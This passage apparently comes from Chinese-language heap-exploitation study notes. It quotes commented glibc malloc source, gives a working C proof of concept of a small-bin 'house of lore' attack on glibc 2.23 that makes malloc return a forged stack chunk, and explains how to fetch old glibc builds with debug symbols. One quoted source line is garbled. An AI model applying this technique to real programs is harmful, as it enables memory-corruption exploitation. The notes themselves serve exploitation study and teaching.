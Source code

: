                     if (av != &main_arena) // 假如不是在主线程(main_arena)，添加上不是在main_arena的标记
                        victim->size '= NON_MAIN_ARENA;
                    check_malloced_chunk(av, victim, nb);
                    void *p = chunk2mem(victim); // 获得指向可用区域的指针
                    alloc_perturb(p, bytes);
                    return p; // 返回该指针
                }
            }
        }

笔者在`glibc 2.23`下，使用了以下代码成功完成攻击：

    #include <stdio.h>
    #include <stdlib.h>

    int main()
    {
        long fake_chunk[0x110]; // 在栈上伪造一个fake chunk，最终申请到这里表示攻击成功
        long fake_chunk2[0x110]; // 需要fake_chunk2，作用是最后从small bin中取出fake_chunk的时候，逃避检查
        printf("the addr of fake chunk is %p\n", fake_chunk);
        long* a = malloc(0x100); // 申请一个属于small bin的chunk
        malloc(0x20); // 防止被top chunk合并
        free(a); // chunk a会被置入 unsorted bin
        malloc(0x120); // 申请一个大chunk，这会让chunk a置入small bin 

        /* 攻击 */
        a[1] = &fake_chunk[0]; // chunk a的bk指针要指向fake_chunk
        fake_chunk[2] = a - 2; // fake_chunk的fd指针要指向chunk a 
        malloc(0x100); // 申请一个chunk a大小的chunk

        // 接下来我们希望能够取出fake_chunk，但是这个时候又会经历一次small bin的检查
        // 因此我们借助fake_chunk2来逃避检查
        // 只需要将fake_chunk的bk指向fake_chunk2，fake_chunk2的fd指向fake_chunk即可。
        fake_chunk[3] = &fake_chunk2[0]; // fake_chunk的bk指向fake_chunk2, fake_chunk2就是bck
        fake_chunk2[2] = &fake_chunk[0]; // fake_chunk2的fd必须指向fake_chunk
        long* b = malloc(0x100); // 再次申请一个
        printf("the addr of chunk b is %p.\n", b - 2); // 神奇地发现就是栈上的地址
        return 0;
    }

## 记一次下载glibc 2.23-0ubuntu11.2

这个版本的`glibc`在`glibc-all-in-one`是没有的，但很多情况的ubuntu16实际上是这个`glibc`而不是现在用的`glibc2.23-0ubuntu11.3`。因此以备需要，这个还是需要有一份的。

在[这里](https://launchpad.net/ubuntu/+source/glibc/2.23-0ubuntu11.2)找到的。这里可以选择下amd64的和i386版本。

此外[这里](http://lliurex.net/xenial/pool/main/g/glibc/)也可以找到更多的版本。

进入对应的版本，我先是找到了对应的`deb`包（看着像的），然后直接解压，再解压，拿到一堆libs然后兴冲冲地拿去patchelf了

发现运行起来是没问题的，但是在`gdb`调试的时候会提示没有`debug symbol`。这个时候看了看`glibc-all-in-one`的`download`脚本

发现里面有下载对应的`debug symbol`文件 

因此还是在下`libs`包的地方把带`dbg`文件的也搞下来，并且要解压在对应`libs`文件夹的`.debug`文件夹中（默认隐藏看不到）就可以调试了。
